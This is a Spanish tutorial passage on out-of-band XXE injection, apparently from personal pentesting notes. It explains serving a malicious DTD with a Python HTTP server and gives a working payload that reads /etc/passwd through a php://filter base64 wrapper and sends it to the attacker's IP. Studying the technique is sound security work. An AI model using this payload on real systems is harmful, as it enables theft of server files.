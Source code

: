     - El atacante crea un documento XML malicioso que **incluye una entidad externa** que apunta a **una URL controlada por ellos**.
    - Cuando la aplicación vulnerable procesa este XML, intenta resolver la entidad externa **haciendo una solicitud a la URL** especificada.
    - El atacante monitorea las solicitudes entrantes en su servidor para **recolectar información sensible enviada por la aplicación vulnerable**.

-------

Algo a tener en cuenta es que hay veces que **la petición XML NO TE PERMITE DECLARAR ENTIDADES dentro de la estructura** como lo habíamos hecho antes reemplazando en el campo **"email"** con **"&myFile;"**, nos daríamos cuenta porque nos brindaría un error con respecto a las entidades, en ese caso podemos hacerlo dentro del propio **DTD !DOCTYPE**.

En la siguiente imagen se muestra el código que debemos enviar como solicitud XML al servidor con Burpsuite, este código busca un archivo llamado "**malicious.dtd**" en la ip otorgada (En este caso la nuestra), este archivo es un **DTD externo creado por nosotros ubicado en nuestra máquina de atacante**, luego desde nuestra máquina estando con un servidor montado con ``python3 -m http.server 80`` haremos de puente para que la petición pase por nosotros y llegue al archivo que se encuentra en el directorio actual.
==Recordemos que a la hora de abrir un servidor temporal con python, el servidor tendrá el contenido del directorio donde abrimos el servidor mismo==.

==En donde pone "xxe" podemos poner "myFile" como lo hicimos después de la siguiente imagen en Burpsuite, o el nombre que queramos, al igual que en donde dice "foo", nosotros pusimos "prueba", por eso da lo mismo.==
![[XXE 6.png]]

-----

El contenido del archivo **malicious.dtd** que será ejecutado una vez la petición XML lo interprete será el siguiente. 

Este archivo en ==la primera linea== lo que hace es definir una entidad llamada "file" para luego utilizar un "**Wrapper**" ``php://filter/convert.base64-encode/resource=/etc/passwd`` para convertir la respuesta que le solicitamos en este caso el contenido del **/etc/passwd** a **base64**.

Luego en ==la segunda linea== definimos una entidad llamada "**eval**" con una entidad dentro de esta, cabe aclarar que a la hora de definir una entidad dentro de otra, en la entidad interna debemos colocar el primer ``%`` en *Hexadecimal* y con ``;`` al final, tal que así ``&#x25;``, de lo contrario **nos daría un error**. Esta segunda entidad se llamará "**exfil**", luego le indicaremos a quien deseamos tramitar la petición (**A nosotros**) para hacer que nos envié esa cadena codificada por el método "**GET**" a **nuestro servidor web** montado con Python. Al final de nuestra IP, colocamos /?file= para que se nos sea mas fácil de ver la respuesta en base64, y luego llamamos a la entidad ``%file;`` definida en la primera linea para que ahí se imprima todo el contenido del **/etc/passwd** en base64.

```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.0.193/?file=%file;'>">
%eval;
%exfil;
```

-------

